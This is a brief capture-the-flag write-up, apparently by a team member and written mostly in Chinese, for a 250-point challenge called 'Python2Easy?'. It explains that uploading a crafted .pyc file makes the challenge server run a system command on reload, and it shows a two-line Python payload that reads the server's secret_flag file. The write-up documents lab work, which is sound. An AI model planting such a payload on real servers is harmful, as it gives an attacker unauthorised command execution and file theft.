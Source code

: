 ## Python2Easy? (250)
Credits to my teammates
### solution
與上題相同，改為生成以下檔案的`.pyc`,server會在reload時執行system command
發現server上的`secret_flag`並取得

```python
import os
key = os.system('cat secret_flag')
```
